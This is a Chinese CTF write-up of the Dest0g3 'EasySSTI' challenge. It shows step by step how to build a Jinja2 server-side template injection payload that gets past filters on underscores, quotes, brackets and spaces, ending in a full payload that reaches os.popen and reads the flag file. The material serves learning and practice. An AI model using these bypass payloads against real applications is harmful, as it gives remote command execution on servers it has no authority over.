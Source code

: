 ```yaml
---
title: '[Dest0g3 520迎新赛]EasySSTI'
date: 2025-02-02 21:14:38
tags: ssti
categories: 刷题笔记
---
```


## [Dest0g3 520迎新赛]EasySSTI

![image-20250202211511974](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202502022115054.png)

我们通过测试，那先username可以进行ssti注入

`用''.__class__等进行简单测试，发现_，'，"，，[都被过滤了，于是用{{().request.args.class}}&class=__class__尝试绕过，结果request也被过滤`

我们学习feng师傅的[文章](https://blog.csdn.net/rfrder/article/details/115272645?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522165313511116780366513158%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&request_id=165313511116780366513158&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2)进行拼接

```
{{config}}可以用来查看配置信息，通过这个或许能够构造出我们需要的payload
```

```
1. python下的数据拼接
join 方法 拼接字典，主要用于索引上的合并:默认按索引合并，可以合并相同或相似的索引，不管他们有没有重叠列

2. {{()|select|string|list}}  or  {{lipsum|select|string|list}}     
获取字符列表  

3. {{lipsum.__globals__['os'].popen('ls').read()}}
命令执行
```

所以我们可以用来构造被过滤的关键字

```
#构造po="pop"     #利用dict()|join拼接得到
{% set po=dict(po=a,p=a)|join%}
 
#构造a=(()|select|string|list).pop(24),这里a即下划线_
{% set a=(()|select|string|list)|attr(po)(24)%}
 
#构造ini="__init__"
{% set ini=(a,a,dict(init=a)|join,a,a)|join()%}
 
#构造glo="__globals__"
{% set glo=(a,a,dict(globals=a)|join,a,a)|join()%}
 
#构造geti="__getitem__"
{% set geti=(a,a,dict(getitem=a)|join,a,a)|join()%}
 
#构造built="__builtins__"
{% set built=(a,a,dict(builtins=a)|join,a,a)|join()%}
 
#构造sub="__subclasses__"
{% set sub=(a,a,dict(subclasses=a)|join,a,a)|join()%}

#构造chr()函数调用
{% set x=(q|attr(ini)|attr(glo)|attr(geti))(built)%}
{% set chr=x.chr%}

#构造file='/flag'
{% set file=chr(47)%2bchr(102)%2bchr(108)%2bchr(97)%2bchr(103)%}

```

回到该题，由于空格被过滤，我们使用%0a代替

```
{%set%0apo=dict(po=a,p=a)|join()%}                        #pop
{%set%0aa=(()|select|string|list)|attr(po)(24)%}          #_
{%set%0aglo=(a,a,dict(glo=aa,bals=aa)|join,a,a)|join()%}  #globals
{%set%0ageti=(a,a,dict(ge=aa,titem=aa)|join,a,a)|join()%} #getitem
{%set%0ape=dict(po=aaa,pen=aaa)|join()%}                  #popen
{%set%0are=dict(rea=aaaaa,d=aaaaa)|join()%}               #read
dict(o=a,s=a)|join()                #获取 os
(config|string|list)|attr(po)(279)  #获取  /


{{lipsum|attr(glo)|attr(geti)(dict(o=a,s=a)|join())|attr(pe)(dict(l=a,s=a)|join())|attr(re)()}}
<==>
{{lipsum.__globals__['os'].popen('ls').read()}}

```

最终payload

```
{%set%0apo=dict(po=a,p=a)|join()%}{%set%0aa=(()|select|string|list)|attr(po)(24)%}{%set%0aglo=(a,a,dict(glo=aa,bals=aa)|join,a,a)|join()%}{%set%0ageti=(a,a,dict(ge=aa,titem=aa)|join,a,a)|join()%}{%set%0ape=dict(po=aaa,pen=aaa)|join()%}{%set%0are=dict(rea=aaaaa,d=aaaaa)|join()%}{{lipsum|attr(glo)|attr(geti)(dict(o=a,s=a)|join())|attr(pe)(((()|select|string|list)|attr(po)(15),(()|select|string|list)|attr(po)(6),(()|select|string|list)|attr(po)(16),(()|select|string|list)|attr(po)(10),(config|string|list)|attr(po)(279),(()|select|string|list)|attr(po)(41),(()|select|string|list)|attr(po)(20),(()|select|string|list)|attr(po)(6),(()|select|string|list)|attr(po)(1))|join())|attr(re)()}}
```

![image-20250202214529854](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202502022145902.png)





参考

https://blog.csdn.net/rfrder/article/details/115272645?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522165313511116780366513158%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&request_id=165313511116780366513158&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2

https://chenlvtang.top/2021/03/31/SSTI%E8%BF%9B%E9%98%B6/
